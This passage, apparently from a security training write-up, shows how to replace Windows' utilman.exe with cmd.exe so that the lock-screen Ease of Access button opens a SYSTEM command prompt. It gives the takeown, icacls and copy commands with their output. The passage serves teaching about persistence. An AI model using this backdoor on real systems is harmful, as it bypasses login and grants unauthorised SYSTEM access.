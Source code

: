 ### Utilman

Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

![utilman](./assets/73c7698a015de5a988fd815ff3e41473.png)

When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with SYSTEM privileges. If we replace it with a copy of `cmd.exe`, we can bypass the login screen again.

To replace `utilman.exe`, we do a similar process to what we did with `sethc.exe`:

- **Command Prompt**        

```shell-session
C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
        1 file(s) copied.
        
```
